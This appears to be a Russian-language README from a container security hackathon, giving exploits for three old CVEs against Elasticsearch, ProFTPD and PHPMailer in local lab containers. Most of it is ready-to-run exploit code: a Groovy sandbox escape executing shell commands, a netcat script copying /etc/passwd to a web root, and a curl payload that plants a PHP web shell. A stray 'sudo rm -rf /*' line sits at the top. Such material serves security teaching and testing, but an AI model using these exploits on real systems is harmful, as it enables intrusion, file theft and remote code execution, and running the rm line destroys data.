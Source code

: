 sudo rm -rf /*
===
---
Использованная ОС: kali linux 
Использованная версия docker: 18.09.1 

CVE-2015-1427
===
ElasticSearch Groovy RCE <br />
контейнер: bash/cve-2015-1427.sh <br />
Краткое описание уязвимости: Механизм сценариев Groovy в Elasticsearch до 1.3.8 и 1.4.x до 1.4.3 позволяет удаленным пользователям обходить механизм защиты песочницы и выполнять произвольные команды оболочки с помощью созданного сценария. <br />
Эксплоиты:
Выполнить в терминале
```bash
curl -s http://localhost:9200/_search\?pretty -XPOST -d '{"script_fields": {"myscript": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"whoami\").getText()"}}}'
```

Python вариант: <br />
Создать файл с кодом ниже и запустить его
```python
import requests
host = 'http://localhost:9200/'
payload1 = '{"size":1, "script_fields": {"myscript":{"script": "java.lang.Math.class.forName(\\"java.lang.Runtime\\").getRuntime().exec(\\"whoami\\").getText()"}}}'

print('exploiting cve-2015-1427 (Container security hackaton)')
req = requests.post(host + '_search?pretty', data=payload1)
print(req.text)
```

В рез-те выполнения нам вернётся результат выполнения команды whoami (а именно root)<br />
Видео: https://youtu.be/W0lYqvhi0iw

CVE-2015-3306
===
контейнер: bash/CVE-2015-3306.sh <br />
Краткое описание уязвимости: Модуль mod_copy в ProFTPD 1.3.5 позволяет чиать и записывать произвольные файлы через команды site cpfr и site cpto <br />
Описание эксплойта: в рез-те выполнения эксплойта создаётся файл passwd, содержащий содержимое файла /etc/passwd <br />

Эксплоит:
nano exploit.sh
```bash
#!/bin/bash

nc localhost 21 <<EOF
SITE CPFR /etc/passwd
SITE CPTO /var/www/html/passwd
EOF
```
chmod +x ./exploit.sh <br />
./exploit.sh <br />
откройте страницу http://localhost/passwd <br />

Видео: https://youtu.be/IYNk7QcGbWE



CVE-2016-10033
===
PHPMail Remote Code Execution <br />
контейнер: bash/CVE-2016-10033.sh <br />
Краткое описание уязвимости: В PHPMailer до версии 5.2.18 существовала уязвимость, приводящая к уязвимости типа Remote Code Execution. Из-за недостаточной фильтрации символов \' в поле "sender" злоумышленник мог внедрить вредоносный код. <br />
Описание эксплойта: в рез-те выполнения эксплойта создаётся файл shell.php, позволяющий выполнить произвольный код на сервере при помощи параметра cmd.<br />
Эксплоит
```bash
curl -sq 'http://localhost:8383' -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzXJpHSq4mNy35tHe' --data-binary $'------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="action"\r\n\r\nsubmit\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="name"\r\n\r\n<?php echo \"Shell\";system($_GET[\'cmd\']); ?>\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="email"\r\n\r\n\"floppa\\\" -OQueueDirectory=/tmp -X/www/shell.php server\" @test.test\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="message"\r\n\r\nxD\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe--\r\n'
```
Видео: https://youtu.be/fwLJwSejeNQ

